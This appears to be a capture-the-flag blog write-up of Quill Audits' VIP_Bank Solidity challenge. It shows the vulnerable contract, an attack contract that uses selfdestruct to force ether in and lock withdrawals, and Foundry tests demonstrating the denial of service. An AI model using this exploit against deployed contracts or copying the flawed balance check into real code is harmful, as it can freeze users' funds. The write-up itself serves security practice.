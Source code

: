 ```yaml
---
date: 2023-04-13T12:09:20-04:00
draft: false
tags: [CTF]
title: "Day06 - VIP_Bank"
---
```


Recently I discovered on Twitter [this](https://academy.quillaudits.com/challenges) challenges page from Quill Audits, and I decided to give it a try. I started with the VIPBank challenge, which is a smart contract that allows you to deposit and withdraw funds from it. The challenge consists on locking the contract, aka DoS attack.

# The contract

```javascript
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

contract VIP_Bank{

    address public manager;
    mapping(address => uint) public balances;
    mapping(address => bool) public VIP;
    uint public maxETH = 0.5 ether;

    constructor() {
        manager = msg.sender;
    }

    modifier onlyManager() {
        require(msg.sender == manager , "you are not manager");
        _;
    }

    modifier onlyVIP() {
        require(VIP[msg.sender] == true, "you are not our VIP customer");
        _;
    }

    function addVIP(address addr) public onlyManager {
        VIP[addr] = true;
    }

    function deposit() public payable onlyVIP {
        require(msg.value <= 0.05 ether, "Cannot deposit more than 0.05 ETH per transaction");
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public onlyVIP {
        require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
        require(balances[msg.sender] >= _amount, "Not enough ether");
        balances[msg.sender] -= _amount;
        (bool success,) = payable(msg.sender).call{value: _amount}("");
        require(success, "Withdraw Failed!");
    }

    function contractBalance() public view returns (uint){
        return address(this).balance;
    }

}
```

# The attack

DoS attacks *(at least the ones I've seen for now)* are always based in the same principle, which is using the `selfdestruct()` method on an attack contract, which will force send all the funds to the victim contract even though this one won't accept incoming funds.

```javascript
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

import "./VIPBank.sol";

contract Hack {
    VIP_Bank public vipBank;

    constructor() {
        vipBank = new VIP_Bank();
    }

    receive() external payable {}

    function hack(address _Bank) public {
        selfdestruct(payable(_Bank));
    }
}
```

# POC

This is really the meat of this challenge for me, as I want to practice using the `foundry` framework.

We will write some tests that will prove that the `VIP_Bank` contract is in fact working properly and also show that once we use our `Hack` contract to perform the DoS attack, the contract will be locked.

```javascript
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

import "../src/VIPBank.sol";
import "../src/Hack.sol";

import "forge-std/Test.sol";

contract TestVIPBank is Test {
    VIP_Bank public vipBank;
    Hack public hack;

    function setUp() public {
        vipBank = new VIP_Bank();
        hack = new Hack();
    }
```
```javascript
    function test_canWithdraw() public {
        vipBank.addVIP(address(1));
        vm.deal(address(1), 0.1 ether);

        vm.startPrank(address(1));
        vipBank.deposit{value: 0.05 ether}();
        vipBank.withdraw(0.05 ether);
        vm.stopPrank();
    }
```
```javascript
    function testFail_cannnotWithdraw() public {
        vipBank.addVIP(address(1));
        vm.deal(address(hack), 0.1 ether);
        vm.deal(address(1), 0.6 ether);

        vm.startPrank(address(1));
        for (uint256 i = 0; i < 10; i++) {
            vipBank.deposit{value: 0.05 ether}();
        }
        hack.hack(address(vipBank));
        vipBank.withdraw(0.05 ether);
        vm.stopPrank();
    }
}
```